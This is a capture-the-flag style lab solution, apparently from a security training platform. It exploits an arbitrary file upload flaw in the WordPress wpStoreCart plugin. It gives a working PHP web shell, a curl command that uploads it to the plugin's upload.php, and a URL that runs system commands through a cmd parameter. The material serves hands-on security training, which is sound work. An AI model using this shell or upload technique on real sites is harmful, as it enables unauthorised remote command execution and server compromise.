

<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress wpStoreCart </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=471>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : File Upload </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

**Step 2:** Search on google “WordPress wpStoreCart file upload” and look for publically available exploits.**  

The exploit db link contains a php script which can be used to exploit the vulnerability.  ![ref1]**Exploit DB Link: <https://www.exploit-db.com/exploits/19023>** 

Analysis of the PHP script reveals that the file is uploaded to the vulnerable web page “/wp-content/plugins/wpstorecart/php/upload.php”. 

**Step 3:** Create a PHP web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

**Command:** cat shell.php ![ref1]

**Step 4:** Upload the web shell using curl command 

**Command:** curl -F "Filedata=@./shell.php" http://ekd8eic4ygc4gflttkrovrbt4.asia.attackdefenselabs.com/wp-content/plugins/wpstorecart/php /upload.php 

The file will be uploaded to the directory “/wp-content/uploads/wpstorecart/”. **Step 5:** Access the uploaded PHP script. 

**URL:** http://ekd8eic4ygc4gflttkrovrbt4.asia.attackdefenselabs.com/wp-content/uploads/wpstorecart/sh ell.php 

No output is returned since the cmd parameter was not passed. **Step 6:** Execute system commands through “cmd” GET parameter. **Command:** id 

**URL: ![ref1]**http://ekd8eic4ygc4gflttkrovrbt4.asia.attackdefenselabs.com/wp-content/uploads/wpstorecart/sh ell.php?cmd=id 

The “id” command was executed on the web server and the output was dumped on the web page. 

**References:**  

1. wpStoreCart (<https://github.com/wp-plugins/wpstorecart>)  ![ref1]
1. WordPress Plugin wpStoreCart 2.5.27-2.5.29 - Arbitrary File Upload (<https://www.exploit-db.com/exploits/19023>)  

[ref1]: Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.003.png
